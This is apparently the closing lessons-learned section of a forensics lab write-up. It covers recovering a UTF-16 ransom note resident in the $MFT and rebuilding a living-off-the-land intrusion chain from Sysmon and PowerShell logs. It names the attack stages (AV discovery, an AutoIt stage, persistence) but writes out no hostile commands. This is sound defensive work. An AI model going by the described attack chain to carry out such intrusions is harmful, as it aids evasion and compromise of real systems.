Finding the attacker email (the ransom note) took the longest. I looked for it as a `.txt` file first — in the MFT, in the RunMRU registry key, in the PowerShell 4104 logs, in the Chrome downloads. It wasn't in any of them, because KAPE never collected the Temp/staging folders where it was dropped. It turned out the note was stored **resident inside the `$MFT`** — small files keep their content inline in the MFT record rather than in a separate cluster, so it was there even though the file wasn't. The other catch: the content was UTF-16, so a plain `findstr` (which reads ASCII) skipped right over it. Reading the `$MFT` with `Select-String -Encoding Unicode` finally surfaced it. If a small text artifact is expected but missing from the triage, that's the place to look — in both encodings.

RunMRU being empty was a red herring worth noting. The scenario said the command was pasted into File Explorer, so I expected it in RunMRU. It wasn't. But the command still ran, so it left a trace elsewhere (PowerShell 4104). An empty artifact doesn't mean the action didn't happen.

Almost the entire chain came off one identifier: the `WindowsUpdate.exe` ProcessGuid. Filtering Sysmon EID 1 and 11 on that GUID reconstructed the staging, the AV discovery, the AutoIt stage, and the persistence in order.

Two `findstr` AV-discovery commands looked identical until I compared the millisecond timestamps — `.733` vs `.933`. The "second" command depended on that, not on the order the events happened to show up.

Every stage used a trusted binary — `powershell`, `cmd`, `tasklist`, `findstr`, AutoIt. Nothing here would be caught by looking at the binary; it's the command line that gives it away.
